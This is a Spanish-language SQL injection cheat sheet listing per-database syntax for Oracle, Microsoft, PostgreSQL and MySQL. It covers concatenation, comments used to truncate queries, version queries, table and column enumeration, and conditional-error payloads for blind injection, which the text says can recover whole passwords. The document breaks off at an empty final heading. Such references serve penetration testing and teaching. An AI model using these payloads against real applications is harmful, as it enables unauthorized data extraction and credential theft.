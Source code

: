 ## Concatenación de cadenas

Gracias a la concatenación de cadenas puedes concatenar varias cadenas para formar una sola cadena.

Oracle y PostgreSQL:

	'foo'||'bar'

Microsoft:

	'foo'+'bar'

MySQL:

	'foo' 'bar'
	CONCAT('foo','bar') 

## Subcadena 

Puede extraer parte de una cadena, desde un desplazamiento específico con una longitud específica. Tenga en cuenta que el índice de compensación está basado en 1. Cada una de las siguientes expresiones devolverá la cadena "bob".

MySQL, PostgreSQL y Microsoft: 

	SUBSTRING('holabob', 5, 3)

Oracle: 

	SUBSTR('holabob', 5, 3)

---
## Comentar

Puede utilizar comentarios para truncar una consulta y eliminar la parte de la consulta original que sigue a su entrada.

Oracle, Microsoft, PostgreSQL y MySQL:

	--comentario

Microsoft, PostgreSQL y MySQL:

	/*comment*/

MySQL:

	#comentario
	-- comentario [Tenga en cuenta el espacio después del doble guión.]

---
## Versión de la base de datos

Puede usar esto para ver la versión de la base de datos.

Microsoft y MySQL:

	@@version

Oracle: 

	SELECT banner FROM v$version
	SELECT version FROM v$instance

PostgreSQL

	SELECT version()

---
## Contenidos de las bases de datos

Sirve para listar informacion sobre lo que contiene la base de datos, como tablas, columnas 
### Informacion de tablas 

PostgreSQL, Mysql y Microsoft:

	SELECT * FROM information_schema.tables

Las columnas que contiene esta tabla es: 

1. **table_catalog:** Nombre del catálogo al que pertenece la tabla (puede ser equivalente a la base de datos en algunos sistemas).
2. **table_schema:** Nombre del esquema al que pertenece la tabla.
3. **table_name:** Nombre de la tabla.
4. **table_type:** Tipo de la tabla (puede ser 'BASE TABLE' para tablas normales, 'VIEW' para vistas, etc.).
5. **engine (o similar):** Tipo de motor de almacenamiento utilizado por la tabla.
6. **version:** Versión del motor de almacenamiento.
7. **row_format:** Formato de fila utilizado por la tabla.
8. **table_rows:** Número aproximado de filas en la tabla.
9. **avg_row_length:** Longitud promedio de una fila en la tabla.
10. **data_length:** Tamaño total de los datos de la tabla.
11. **index_length:** Tamaño total de los índices de la tabla.
12. **auto_increment:** Valor que indica si la tabla tiene una columna de autoincremento.

Oracle: 

	SELECT * FROM all_tables

1. **OWNER:** Propietario del objeto de base de datos (usuario).
2. **TABLE_NAME:** Nombre de la tabla.
3. **TABLESPACE_NAME:** Nombre del tablespace en el que se encuentra la tabla.
4. **CLUSTER_NAME:** Nombre del clúster al que pertenece la tabla (si está en un clúster).
5. **IOT_NAME:** Nombre del índice organizado por tabla (si la tabla es una tabla organizada por índices).
6. **STATUS:** Estado de la tabla (VALID, INVALID, etc.).
7. **PCT_FREE:** Porcentaje de espacio libre en cada bloque de datos.
8. **PCT_USED:** Porcentaje de espacio utilizado en cada bloque de datos.
9. **INI_TRANS:** Número inicial de transacciones concurrentes permitidas.
10. **MAX_TRANS:** Número máximo de transacciones concurrentes permitidas.

### Informacion de columnas 

PostgreSQL, Mysql y Microsoft:

	SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

1. **table_catalog:** El nombre del catálogo al que pertenece la tabla.
2. **table_schema:** El nombre del esquema al que pertenece la tabla.
3. **table_name:** El nombre de la tabla.
4. **column_name:** El nombre de la columna.
5. **ordinal_position:** La posición ordinal de la columna en la tabla.
6. **column_default:** El valor predeterminado de la columna.
7. **is_nullable:** Indica si la columna permite valores nulos (YES/NO).
8. **data_type:** El tipo de datos de la columna.
9. **character_maximum_length:** La longitud máxima de caracteres para columnas de tipo de datos de caracteres.
10. **numeric_precision:** La precisión numérica para columnas de tipo de datos numéricos.
11. **numeric_scale:** La escala numérica para columnas de tipo de datos numéricos.
12. **datetime_precision:** La precisión para columnas de tipo de datos de fecha y hora.
13. **character_set_name:** El conjunto de caracteres de la columna.
14. **collation_name:** La configuración de intercalación de la columna.

Oracle:

	SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

1. **OWNER:** Propietario del objeto de base de datos (usuario).
2. **TABLE_NAME:** Nombre de la tabla.
3. **COLUMN_NAME:** Nombre de la columna.
4. **DATA_TYPE:** Tipo de datos de la columna.
5. **DATA_LENGTH:** Longitud máxima de la columna en bytes.
6. **DATA_PRECISION:** Precisión numérica para columnas de tipo numérico.
7. **DATA_SCALE:** Escala numérica para columnas de tipo numérico.
8. **NULLABLE:** Indica si la columna permite valores nulos ( 'Y' o 'N').
9. **COLUMN_ID:** Posición ordinal de la columna en la tabla.
10. **DEFAULT_LENGTH:** Longitud del valor predeterminado de la columna.
11. **DATA_DEFAULT:** Valor predeterminado de la columna.
12. **NUM_DISTINCT:** Número aproximado de valores distintos en la columna.
13. **LOW_VALUE:** Valor más bajo almacenado en la columna.
14. **HIGH_VALUE:** Valor más alto almacenado en la columna.
15. **DENSITY:** Densidad de la columna 

---
## Errores condicionales 

Puede servir para inyecciones ciegas en las cuales las paginasno representan la informacio, por lo tanto se pueden usar errores para que la pagina responda o no a las consultas dependiendo si la condicion se cumple o no, esto puede ayudar a obtener contraseñas enteras.

Oracle:

	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual

Microsoft: 

	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

PostgreSQL:

	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)

MySQL

	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

---
## Extraer datos por errores visibles

